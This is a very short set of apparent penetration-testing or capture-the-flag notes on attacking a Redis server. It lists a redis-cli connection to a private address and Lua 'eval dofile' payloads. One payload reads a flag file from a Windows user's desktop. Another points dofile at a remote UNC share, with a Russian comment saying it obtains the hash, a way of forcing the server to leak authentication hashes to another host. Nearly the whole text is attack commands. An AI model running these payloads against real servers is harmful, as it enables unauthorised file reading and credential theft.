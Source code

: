 # database

# redis

config get *

redis-cli -h 10.10.14.70 

eval "dofile('c:\\\\users\\\\enterprise-security\\\\desktop\\\\user.txt')" 0

eval "dofile('//10.18.35.17/s')" 0 - для получения хеша
